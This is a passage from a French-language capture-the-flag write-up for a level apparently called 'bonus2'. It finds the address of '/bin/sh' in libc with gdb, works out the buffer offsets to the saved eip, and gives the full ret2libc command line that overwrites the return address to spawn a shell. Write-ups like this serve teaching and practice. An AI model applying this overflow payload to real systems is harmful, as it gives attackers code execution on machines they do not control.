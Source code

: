 **Adresse de `"/bin/sh"`**
```
> (gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
```
L'adresse de `"/bin/sh"` est `0xb7f8cc58`.

---

Il nous faut ensuite calculer la taille de nos argument pour pouvoir placer correctement nos adresse sur `eip`. De manière abstraite, on peut représenter notre concaténation de cette manière :
```
Début du buffer                                     eip
v                                                   v
[Hyvää päivää] [premier_argument] [second_argument] [adresse_system] [adresse_retour] [adresse_bin_sh]
^              ^                                    ^                ^                ^
18 octets      40 octets                            4 octets         4 octets         4 octets
               (obligatoirement)
```
La taille de notre second argument se résume donc à ce calcul :
```
taille_second_argument = adresse_eip - adresse_buffer - (taille_Hyvää + taille_premier_argument)
                       = 0xbffff62c - 0xbffff5e0 - (0x12 + 0x28)
                       = 0x12
                       = 18 (base 10)
```
Notre second argument devra donc faire `18` octets. Finalement, nous utilisons donc cette commande, incluant `[::-1]` qui permet, en `python`, d'inverser une chaîne de caractères.
```
./bonus2 `python -c 'print "A"*40'` `python -c 'print "B"*18 + "\xb7\xe6\xb0\x60"[::-1] + "OSEF" + "\xb7\xf8\xcc\x58"[::-1]'`
```
